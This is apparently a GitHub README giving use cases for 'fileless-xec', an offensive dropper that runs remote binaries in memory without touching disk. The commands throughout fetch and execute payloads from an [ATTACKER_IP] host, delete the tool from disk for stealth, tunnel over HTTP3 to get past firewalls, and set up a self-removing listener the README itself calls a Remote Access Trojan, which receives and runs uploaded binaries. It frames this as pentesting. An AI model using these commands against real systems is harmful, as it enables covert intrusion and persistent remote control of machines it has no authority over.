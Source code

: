 # `fileless-xec` use cases and examples


  - [`curl | sh` for binaries](#curl--sh-for-binaries)
  - [Execute binary with stdout/stdin](#execute-binary-with-stdoutstdin)
  - [Execute binary with arguments](#execute-binary-with-arguments)
  - [`fileless-xec` self remove](#fileless-xec-self-remove)
  - ["Remote go": execute go binaries without having go installed locally](#remote-go-execute-go-binaries-without-having-go-installed-locally)
  - [Bypass firewall with HTTP3](#bypass-firewall-with-http3)
  - [Execute a shell script](#execute-a-shell-script)
  - [`fileless-xec` server mode](#fileless-xec-server-mode)
    - [RAT (Remote Access Trojan) scenarion](#rat-remote-access-trojan-scenario)
  - [`fileless-xec` on windows](#fileless-xec-on-windows)

## `curl | sh` for binaries

This is the basic use case for `fileless-xec`. It enables us to run a remote binary without dropping it on disk:
```shell
fileless-xec [binary_url]
```

## Execute binary with stdout/stdin

`fileless-xec` is able to execute binaries with stdout and stdin. There isn't any special configuration or flag to make it works

## Execute binary with arguments

You can also passed arguments to your binary:
```
fileless-xec [binary_url] -- [flags_and_values_for_the_binary]
```

## `fileless-xec` self remove

On linux, you could remove `fileless-xec`from disk during its execution. This a step further for stealthiness:
```
fileless-xec --self-remove [binary_url]
```

## "Remote go": execute go binaries without having go installed locally

### Pre-requisites

* Attacker machine: 
  * go installed
* Target machine:
  * `fileless-xec`


If you want to run some go code on machine where go is not installed and you don't want to install it:

* For stealthiness reason (in a pentest, the less we install the better)
* For idleness orquickness reason

You will build your go on attacker machine, and use `fileless-xec` to execute it on target machine.

Of course, this use case is applicable for every program language that provides toolchains to make binaries (ex C/C++)

## Bypass firewall with HTTP3

See [HTTP3 - README](https://github.com/ariary/fileless-xec#http3quic) for explanation about the benefit of HTTP3 (spoil: bypass fw):

On attacker machine, set up HTTP3 server:
```bash
./example/http3/genkey.sh
go build light-server.go
./light-server  # launch on port 6121
```

On target machine, tell that you want to use http3:
```
fileless-xec --http3 https://[attacker_ip]:6121/[binary_name]
```

## Execute a shell script

If you are tired of running binaries.. and you want to run shell. This is a workaround example.

1. Transform your script in go code: (delete line `#!/bin/bash` and avoid `"`)

```
go build ./example/shell/generate.go
./generate myscript.sh
```

2. Compile it:

 ```
 go build nestedscript.go
 ```

3. Classicaly execute it on target
```
fileless-xec  [binary_url]
```

## `fileless-xec` server mode

This feature provide  another type of interaction between target and attacker machine:
target machine would have a server (upload binaries server) and attacker machine will send the binary ( trough http, http3, ...) to the server. Once the binary file received the target machine execute it as usual.

We change the connection direction between the 2 machines. As bind shell/reverse shell, it is useful to have both possibilities to adapt to the different possible network permissions



On target Launch the server:
```
fileless-xec server [port]
```

On Attacker machine send the binary to be executed:
* with curl: `curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP:PORT]/upload`
* using client provide in example: 
```
#change url and port in ./example/client/client.go to the target machine ones
go build ./example/client/client.go
./client [BINARY_FILENAME]`
```

### RAT (Remote Access Trojan) scenario

fileless-xec is a dropper that make your program execution stealth. But we can go further and launch a stealth fileless-xec server (RAT), that will wait for program execution

1. On attacker machine build/download fileless-xec and expose it trough HTTP server:
```
# in the same folder of fileless-xec binary
python3 -m http.server 11211
```

2. On target machine launch your stealth fileless-xec (with an "unstealth" one):
```
./fileless-xec --self-remove http://[ATTACKER_IP:PORT]/fileless-xec -- serve 11211
```

3. Now your fileless-xec is silently and patiently waiting for your program to execute it. If you want execute it, on attacker machine:
```
curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP]:11211/upload
```

## `fileless-xec` on windows

You could alse use `fileless-xec` on windows.
Build `filess-xec.exe` with Makefile:
```
make windows.build.fileless-xec
```

Usage is the same except that it is less stealth as binaries are on disk and you can't self remove `fileless-xec` while execution. Meanwhile the binary is immediatly deleted after execution

